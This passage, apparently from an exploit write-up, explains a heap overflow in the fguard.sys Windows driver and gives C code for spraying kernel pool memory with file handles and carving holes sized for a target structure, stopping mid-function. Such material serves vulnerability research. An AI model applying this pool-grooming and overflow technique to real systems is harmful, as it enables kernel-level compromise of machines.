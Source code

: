 We can't do it with a single overflow, instead, we will trigger the overflow a few times, building one object at a time in reverse order. After every successfull overflow we need to locate the constructed object in memory and to use the obtained pointer to build the next object. To locate the object we mark it with special PointerCount and HandleCount values in the object header. Once overflow succeeds we use NtQueryObject to figure out which handle in the array points to the object and then use NtQuerySystemInformation to get the address of the object. Since fguard.sys reads the fgp file from disk, we drop the rogue fgp file before every overflow.

After dropping the file we start with regular spraying:
{% highlight C %}
BOOL SprayObjects()
{
    BOOL   r;
    DWORD  err;

    r = TRUE;
    RtlFillMemory(ObjectArrayA, sizeof(ObjectArrayA), 0x0);
    RtlFillMemory(ObjectArrayB, sizeof(ObjectArrayB), 0x0);

    for (UINT32 i = 0; i < ARR_1_LEN; i++)
    {
        ObjectArrayA[i] = CreateFileW(L"1.txt", GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, 0, OPEN_ALWAYS, 0, NULL);

        if (ObjectArrayA[i] == INVALID_HANDLE_VALUE)
        {
            err = GetLastError();
            printf("CreateFileW failed: %d\n", err);
            r = FALSE;
            goto Exit;
        }
    }

    for (UINT32 i = 0; i < ARR_2_LEN; i++)
    {
        ObjectArrayB[i] = CreateFileW(L"1.txt", GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, 0, OPEN_ALWAYS, 0, NULL);

        if (ObjectArrayB[i] == INVALID_HANDLE_VALUE)
        {
            err = GetLastError();
            printf("CreateFileW failed: %d\n", err);
            r = FALSE;
            goto Exit;
        }
    }

Exit:
    return r;
}
{% endhighlight %}
Then we create holes. Every hole should be slightly bigger than the size of PROTECTED_DIR_DESCRIPTOR (0x2A4 bytes):
{% highlight C %}
BOOL CreateHoles()
{
    BOOL   r;
    UINT32 i = 0;
    UINT32 j = 0;

    r = TRUE;
    for (i = 0; i < ARR_2_LEN; i += 16)
    {
#ifdef _AMD64_
        for (j = 0; j < 3; j++)
#else
        for (j = 0; j < 4; j++)